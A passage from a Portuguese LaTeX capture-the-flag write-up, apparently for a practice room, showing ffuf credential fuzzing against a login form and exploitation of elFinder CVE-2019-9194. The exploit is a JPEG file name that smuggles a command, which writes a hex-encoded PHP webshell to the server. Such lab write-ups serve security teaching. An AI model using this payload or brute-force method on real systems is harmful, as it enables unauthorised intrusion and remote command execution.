  
\includegraphics[width=0.95\linewidth]{ffuf_password123.png}
  \caption{\texttt{ffuf}+\texttt{jq}: uma senha gera resposta de tamanho 74
  (diferente do padrão 62), sinalizando ser válida para outro usuário.}
  \label{fig:ffuf_password123}
\end{figure}

Fixando essa senha e fazendo \emph{fuzzing} no campo \texttt{username}, o usuário
\texttt{jose} responde com \textbf{302} (redirecionamento) em vez de 200.

\begin{lstlisting}[language=bash,caption={Fuzzing de usuários com a senha descoberta.}]
ffuf -w .../xato-net-10-million-usernames.txt -X POST \
  -u http://lookup.thm/login.php \
  -d "username=FUZZ&password=<PASSWORD>" \
  -H "Content-Type: application/x-www-form-urlencoded" -o ffuf_users.json -of json -t 40
# jose  [Status: 302, Size: 0]
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{ffuf_user_jose.png}
  \caption{\texttt{ffuf} no campo de usuário: \texttt{jose} retorna 302, enquanto
  os demais retornam 200 --- credencial \texttt{jose}:\texttt{<PASSWORD>} válida.}
  \label{fig:ffuf_user_jose}
\end{figure}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item O acerto de \texttt{admin} com o Hydra foi \textbf{sorte}; o método
        correto é enumerar por diferença de resposta com \texttt{ffuf}, que
        revela de forma sistemática a credencial de \texttt{jose}.
\end{itemize}
\end{becosemsaida}

\subsection{elFinder e injeção de comando (CVE-2019-9194)}
Autenticado como \texttt{jose}, a aplicação redireciona para
\texttt{files.lookup.thm} (também adicionado ao \texttt{/etc/hosts}), que serve o
\textbf{elFinder}. A versão é vulnerável à \textbf{CVE-2019-9194}: durante
operações de imagem em arquivos \textbf{JPEG}, o nome do arquivo é passado ao
utilitário \texttt{exiftran} sem sanitização, permitindo \textbf{injeção de
comando}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{elFinder.png}
  \caption{Gerenciador de arquivos \textbf{elFinder} em
  \texttt{files.lookup.thm} após o \emph{login} como \texttt{jose}.}
  \label{fig:elfinder}
\end{figure}

Cria-se um JPEG cujo \textbf{nome} embute o \emph{payload}: ao ser processado, ele
grava um \emph{webshell} PHP (\texttt{SecSignal.php}) no servidor.

\begin{lstlisting}[language=bash,caption={Nome do arquivo malicioso (grava o webshell PHP).}]
SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg
\end{lstlisting}

Em seguida, aciona-se a opção \textbf{Resize \& Rotate} sobre a imagem, o que
dispara o \texttt{exiftran} e executa o \emph{payload} embutido no nome.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{resize_rotate.png}
  \caption{Imagem maliciosa carregada e a opção \emph{Resize \& Rotate}, que
  dispara o processamento vulnerável.}
  \label{fig:resize_rotate}
\end{figure}

O \emph{webshell} fica acessível e executa comandos via parâmetro \texttt{c}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{resize_rotate_example_gid.png}
